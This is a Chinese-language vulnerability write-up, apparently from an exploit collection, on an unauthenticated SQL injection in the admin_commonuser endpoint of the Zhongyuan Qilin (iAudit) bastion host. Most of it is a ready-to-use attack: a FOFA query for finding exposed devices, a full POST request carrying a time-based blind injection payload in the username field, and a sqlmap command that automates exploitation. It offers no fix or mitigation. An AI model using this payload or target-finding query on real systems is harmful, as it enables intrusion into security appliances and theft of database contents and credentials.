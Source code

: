 # 中远麒麟堡垒机admin_commonuserSQL注入漏洞

# 一、漏洞简介
中远麒麟依托自身强大的研发能力,丰富的行业经验，自主研发了新一代软硬件一体化统一安全运维平台一-iAudit 统一安全运维平台。该产品支持对企业运维人员在运维过程中进行统一身份认证、统一授权、统一审计、统一监控，消除了传统运维过程中的盲区，实现了运维简单化、操作可控化、过程可视化，是企业 IT 内控最有效的管理平台。中远麒麟堡垒机admin.php接口处存在sql注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库敏感信息及凭证，最终可能导致服务器失陷。

# 二、影响版本
+ 中远麒麟堡垒机

# 三、资产测绘
+ fofa`cert.subject="Baolei"`
+ 登录页面

![1694188801127-8a840ce3-9c49-40f2-a25e-7073d268576d.png](./img/4GELrA0FZ4l8bMSI/1694188801127-8a840ce3-9c49-40f2-a25e-7073d268576d-959746.png)

# 四、漏洞复现
```plain
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=66b53a13d3db0e27a9676d419c374c42
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```

![1694188860909-0dd921d8-b119-4ff4-a1df-dc376091c62c.png](./img/4GELrA0FZ4l8bMSI/1694188860909-0dd921d8-b119-4ff4-a1df-dc376091c62c-177575.png)

**sqlmap**

```plain
sqlmap -u 'https://xx.xx.xx.xx/admin.php?controller=admin_commonuser' --data='username=admin'  --batch
```

![1694189009300-0c3496b5-ebbb-4327-849d-e3225a9e9c6f.png](./img/4GELrA0FZ4l8bMSI/1694189009300-0c3496b5-ebbb-4327-849d-e3225a9e9c6f-940166.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/br57cs51cd4m7sr5>